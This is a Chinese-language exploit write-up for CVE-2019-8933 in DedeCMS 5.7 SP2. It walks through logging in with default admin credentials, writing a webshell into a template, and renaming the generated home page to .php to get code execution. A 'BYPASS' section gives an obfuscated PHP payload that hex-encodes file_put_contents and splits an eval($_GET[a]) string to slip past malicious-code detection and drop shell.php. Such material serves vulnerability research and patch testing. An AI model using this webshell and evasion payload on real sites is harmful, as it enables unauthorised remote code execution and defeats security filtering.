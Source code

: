 # DedeCMS 5.7SP2 代码执行漏洞 CVE-2019-8933

## 漏洞描述

Desdev DedeCMS（织梦内容管理系统）是中国卓卓网络（Desdev）公司的一套基于 PHP 的开源内容管理系统（CMS）。该系统具有内容发布、内容管理、内容编辑和内容检索等功用。 DedeCMS 5.7 SP2 版本中存在漏洞。远程攻击者可经过在添加新模板时，将文件名 ../index.html 更改成 ../index.php 应用该漏洞向 uploads/ 目录上传 .php 文件并执行该文件。

## 漏洞影响

```
DedeCMS 5.7 SP2
```

## 漏洞复现

默认后台登陆路径 `/dede/login.php` 或 `/uploads/dede/login.php` ，默认用户名密码 `admin/admin`。

![](images/DedeCMS%205.7SP2%20代码执行漏洞%20CVE-2019-8933/image-20240327100333720.png)

模板 -> 默认模板管理 -> 新建模板，写入shell，保存：

![](images/DedeCMS%205.7SP2%20代码执行漏洞%20CVE-2019-8933/image-20240327103008160.png)

生成 -> 更新主页 HTML -> 浏览：

```
选择主页模板：default/newtpl.htm
主页位置：更改.html后缀为.php
首页模式：生成静态
```

![](images/DedeCMS%205.7SP2%20代码执行漏洞%20CVE-2019-8933/image-20240327103144180.png)

连接 webshell：

```
http://<YOUR-IP>/index.php
```

![](images/DedeCMS%205.7SP2%20代码执行漏洞%20CVE-2019-8933/image-20240327103310620.png)

### BYPASS

如果被检测到存在恶意代码：

![](images/DedeCMS%205.7SP2%20代码执行漏洞%20CVE-2019-8933/image-20240327104323450.png)

进行绕过，保存成功：

```php
// file_put_contents('./shell.php', "<?php eval($_GET[a]);");

<?php
"\x66\x69\x6c\x65\x5f\x70\x75\x74\x5f\x63\x6f\x6e\x74\x65\x6e\x74\x73"('./shell.php', "<?php eva" . "l(\$_GE" . "T[a]);");
```

核心 -> 频道类型 -> 单页文档管理，通过新建模板 `newtpl.htm` 新建页面，更改 .html 后缀为 .php：

![](images/DedeCMS%205.7SP2%20代码执行漏洞%20CVE-2019-8933/image-20240327104903691.png)

现在，我们在 `/a/` 目录下创建了一个文件，访问 `/a/npc.php` 页面，将会执行 `file_put_contents` 函数生成一个 `shell.php`：

```
http://<YOUR-IP>/a/shell.php
```

![](images/DedeCMS%205.7SP2%20代码执行漏洞%20CVE-2019-8933/image-20240327105235514.png)
